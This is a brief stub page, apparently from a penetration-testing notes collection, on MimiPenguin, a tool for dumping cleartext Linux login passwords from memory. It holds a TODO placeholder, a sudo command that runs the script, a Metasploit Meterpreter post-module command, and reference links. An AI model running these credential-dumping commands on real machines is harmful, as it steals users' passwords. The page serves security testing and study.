 # MimiPenguin

TODO: Fill this info

## Manual

```
$ sudo ./mimipenguin.sh
```

## Metasploit

```
meterpreter > run post/linux/gather/mimipenguin
```

---
## References

- [MimiPenguin Source Repository](https://github.com/huntergregal/mimipenguin)

- [Hacking Articles: Dump Cleartext Password in Linux PC using MimiPenguin](https://www.hackingarticles.in/dump-cleartext-password-linux-pc-using-mimipenguin/)

- [Rapid7: Metasploit Framework MimiPenguin Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/linux/gather/mimipenguin.md)